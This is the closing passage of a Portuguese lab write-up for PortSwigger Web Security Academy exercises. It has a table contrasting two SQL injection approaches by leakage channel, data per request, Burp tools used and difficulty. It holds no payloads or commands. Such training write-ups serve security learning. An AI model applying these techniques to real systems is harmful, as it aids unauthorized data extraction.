| Canal de vazamento | Mensagem de erro detalhada | Status HTTP (200 vs 500) |
| Dados extraídos por request | Linha inteira | 1 bit de informação (V/F) |
| Ferramenta principal | Repeater | Repeater + Intruder |
| Dificuldade | Média | Alta (requer automação) |

---

*Writeup gerado a partir da resolução prática dos labs da [PortSwigger Web Security Academy](https://portswigger.net/web-security).*
